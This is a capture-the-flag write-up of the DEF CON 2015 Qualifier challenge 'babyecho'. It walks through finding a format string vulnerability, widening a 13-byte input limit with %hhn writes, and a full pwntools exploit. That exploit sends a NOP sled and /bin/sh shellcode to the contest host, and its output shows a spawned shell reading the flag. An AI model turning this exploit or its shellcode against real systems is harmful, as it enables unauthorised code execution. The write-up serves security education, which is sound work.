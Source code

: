# DEF CON Qualifier 2015: babyecho

**Category:** Baby's First
**Points:** 1
**Solves:** TODO
**Description:**

> babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232
>
> [Download](http://downloads.notmalware.ru/babyecho_eb11fdf6e40236b1a37b7974c53b6c3d)


## Write-up

_This write-up is made by boogy of the on_est_pas_contents CTF team._

The binary is 32bit and striped:
```bash
$ file babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
babyecho_eb11fdf6e40236b1a37b7974c53b6c3d: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=c9a66685159ad72bd157b521f05a85e2e427f5ee, stripped
```
Fuzzing around with the binary before eaven reverse enginnering it, we sat that there is a format string vulnerability in the function that echos out the user input.
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
AAAA
AAAA
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p
0xd0xa(nil)0xd
```
The problem here is that the buffer only accepts 13 bytes of user input so it's not possible to craft a correct format string payload and overwrite stuff. We need to reverse engineer the function that takes the user input and find out where the size variable is.

I'll not paste all the functions here to save some space but here is the function which is important to us, that prints the user input:
```C
int __usercall sub_8048F3C@<eax>(int a1@<ebx>)
{
  int v1; // ecx@1
  signed int buffer_max_length; // eax@2
  int v3; // ecx@4
  int buffer_length; // [sp+10h] [bp-410h]@1
  int v7; // [sp+1Ch] [bp-404h]@4
  int v8; // [sp+41Ch] [bp-4h]@1

  v8 = *MK_FP(__GS__, 20);
  buffer_length = 13;                           // default buffer length is 13 bytes
  sub_804FC40(off_80EA4C0, 0, 2, 0);
  sub_804DE70(14, sub_8048EB1);
  sub_806CB50(v1, a1);
  while ( 1 )
  {
    buffer_max_length = 1023;                   // maximum length for the buffer
    if ( buffer_length <= 1023 )
      buffer_max_length = buffer_length;
    buffer_length = buffer_max_length;
    sub_804F560("Reading %d bytes\n", buffer_max_length);
    sub_8048E24((int)&v7, buffer_length, 10);
    sub_8048ECF((int)&v7);
    sub_804F560((const char *)&v7);
    sub_804FDE0(10);
    sub_806CB50(v3, a1);
  }
}
```
We can see that the size variable is by default 13 bytes. What is important to note is that the binary checks if the buffer length does not exceed 1023, which means that even if we rewrite the size we can't go more than 1023.

So how do we bypass the 13 bytes restriction and change it to the maximum size **1023**? Well with format strings you have a write what where condition. After some gdb foo we can see the stack layout:

So the stack looks like this:

* %1$x -> 0xd
* %2$x -> 0xa
* %3$x -> 0x0
* %4$x -> 0xd
* %5$x -> pointer to our buffer (first char in "AAAA" on the stack)
* %6$x -> 0x0
* %7$x -> start of our input "AAAA"

We can see this in gdb:

```bash
--------------------------------------------------------------------------[regs]
  EAX: 0x0000000D  EBX: 0x080481A8  ECX: 0x080EB4D4  EDX: 0x080481A8  o d I t S z A p C
  ESI: 0x00000000  EDI: 0x080EA00C  EBP: 0xFFFFD598  ESP: 0xFFFFD170  EIP: 0x08048FDB
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002B
--------------------------------------------------------------------------[code]
=> 0x8048fdb:   call   0x804f560
   0x8048fe0:   mov    DWORD PTR [esp+0x8],0xa
   0x8048fe8:   mov    eax,DWORD PTR [esp+0x10]
   0x8048fec:   mov    DWORD PTR [esp+0x4],eax
   0x8048ff0:   lea    eax,[esp+0x1c]
   0x8048ff4:   mov    DWORD PTR [esp],eax
   0x8048ff7:   call   0x8048e24
   0x8048ffc:   lea    eax,[esp+0x1c]
--------------------------------------------------------------------------------
Breakpoint 1, 0x08048fdb in ?? ()
gdb$ x/32w $esp+4
0xffffd174:     0x0000000d      0x0000000a      0x00000000      0x0000000d
0xffffd184:     0xffffd18c      0x00000000      0x41414141      0x00000000
0xffffd194:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1b4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1c4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1d4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1e4:     0x00000000      0x00000000      0x00000000      0x00000000
gdb$ x/x 0xffffd18c
0xffffd18c:     0x41414141
```
We can also verify it by giving a **%p** to the binary as input to leak stack values:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p%p%p
0xd0xa(nil)0xd0xffffd18c(nil)
```
Or accessing directly the buffer address on the stack:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%5$p
0xffffd18c
```
The first **0xd** is 13 in hex so this is the buffer default length. So how can we override it ? That's simple, with the format strings we can leak the buffer address and then calculate the address of the size on the stack then we write to that address.

Here is the final exploit:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from struct import pack, unpack

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

# p = remote("localhost", 1338)
p = remote("babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me", 3232)
log.info(p.recvuntil("\n"))

#leak buffer address
p.sendline("%5$x")
buffer_address = int(p.recvuntil("\n"), 16)
log.info("Buffer is at %s" % hex(buffer_address))
log.info(p.recvuntil("\n"))

get_address = lambda i: buffer_address+4*(i-7)

# change buffer size to 1023==0x3ff
# buffer_address is 12 bytes after 0xd on the stack
p.sendline(p32(get_address(4)+1)+"%7$hhn") # buffer_address-0xc+1 => 0xd
p.recvuntil("\n")
log.info(p.recvuntil("\n"))

addr2write = get_address(-1)
addr0 = buffer_address+32
addr1 = hex((addr0 >>16)& 0xFFFF)
addr2 = hex(addr0 & 0xFFFF)

payload = str(p32(addr2write)) + str(p32(addr2write+2)) + \
        "%" + str(int(addr1, 16)-8) + "x%8$hn" + \
        "%" + str(int(addr2.replace('0x', '0x1'),16)-int(addr1,16)) + "x%7$hn" + "\x90"*100 + shellcode

log.info("Sending payload")
p.sendline(payload)
p.interactive()
```
> The format string payload could be easily generated with the libformatstr.

Running the exploit we get a shell
```bash
[+] Opening connection to localhost on port 1338: Done
[*] Reading 13 bytes
[*] Buffer is at 0xffb3d4ec
[*] Reading 13 bytes
[*] Reading 1023 bytes
[*] Sending payload
[*] Switching to interactive mode
...
$ cat /home/babyecho/flag
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
```


## Other write-ups and resources

* [Korean](http://blackcon.tistory.com/121)
* <http://pastebin.com/TGuRLGCQ>
* <https://ctf-team.vulnhub.com/defcon-2015-quals-babyecho/>
